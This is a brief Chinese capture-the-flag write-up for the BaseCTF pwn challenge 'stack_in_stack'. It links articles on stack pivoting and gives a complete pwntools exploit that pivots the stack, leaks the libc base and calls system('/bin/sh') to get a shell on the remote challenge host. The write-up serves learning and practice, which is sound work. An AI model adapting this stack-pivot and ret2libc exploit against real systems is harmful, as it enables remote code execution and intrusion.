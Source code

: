 # Basectf pwn方向“stack_in_stack”

栈迁移+libc，我理解的也不是很深刻，就不讲解了，这里附几篇我认为讲的不错的帖子

[栈迁移原理深入理解以及实操](https://xz.aliyun.com/t/12738?time__1311=GqGxu7G%3DGQD%3DoGN4eeqBKwpb8ddY5fII3x)

[栈迁移的原理&&实战运用](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

[栈迁移原理介绍和运用](https://www.cnblogs.com/max1z/p/15299000.html)

[[原创]钉子户的迁徙之路（一）](https://bbs.kanxue.com/thread-281631.htm)


```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
#p = process("./pwn")
p = remote('gz.imxbt.cn',20330)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

seceret = 0x4011dd
main = 0x40124a
leave = 0x00000000004012f2
ret = 0x000000000040101a

#泄露libc基地址
payload = p64(0) + p64(seceret) + p64(0) + p64(main)
payload += p64(0) + p64(0) #填充到rbp，0x30也就是48个字节减去前面的4*8,再填充两个
payload += p64(buf_addr) + p64(leave)#栈迁移，先覆盖返回地址为buf，再接leave_ret
p.send(payload)

p.recvuntil(b'0x')
libc_base = int(p.recv(12),16)-libc.sym["puts"]
log.info("libc_base:"+hex(libc_base))

# 重新接受buf
p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

system_addr = libc_base+libc.sym["system"]
binsh = libc_base+next(libc.search(b'/bin/sh'))
pop_rdi = libc_base+0x2a3e5

payload = p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system_addr)
payload+=p64(0) # 填充一个
payload+=p64(buf_addr)+p64(leave)
p.send(payload)

p.interactive()
```